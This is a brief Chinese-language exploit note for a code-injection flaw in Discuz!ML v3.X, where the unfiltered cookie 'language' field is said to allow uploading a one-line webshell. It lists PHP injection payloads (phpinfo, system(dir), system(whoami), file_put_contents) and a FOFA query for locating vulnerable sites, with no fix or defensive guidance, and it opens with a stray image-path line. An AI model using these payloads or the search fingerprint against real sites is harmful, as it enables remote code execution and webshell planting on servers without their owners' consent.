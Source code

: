 漏洞发生的版本为 Discuz 国际版。Discuz!ML v3.X

用户数量不多，所以影响不大 product of codersclub.org

cookie 中 language 字段未添加 过滤所致，可以上传一句话木马

payload

'.phpinfo().'

'.system(dir).'

'.whoami.'

'.system(whoami).'

'.file_put_contents(,).'

fofa 查询特征: ```2009-2019 codersclub.org```
